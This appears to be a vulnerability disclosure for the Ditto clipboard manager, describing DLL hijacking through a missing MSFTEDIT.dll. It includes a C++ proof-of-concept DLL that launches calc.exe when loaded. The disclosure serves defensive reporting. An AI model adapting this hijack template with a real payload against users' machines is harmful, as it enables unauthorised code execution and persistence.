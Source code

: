 ## The name of an affected Product : Ditto

## Affected Version : 3.24.238.0(Latest)

## Product Address: https://ditto-cp.sourceforge.io/

## Description : MSFTEDIT.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Impact : An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

Poc code:
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```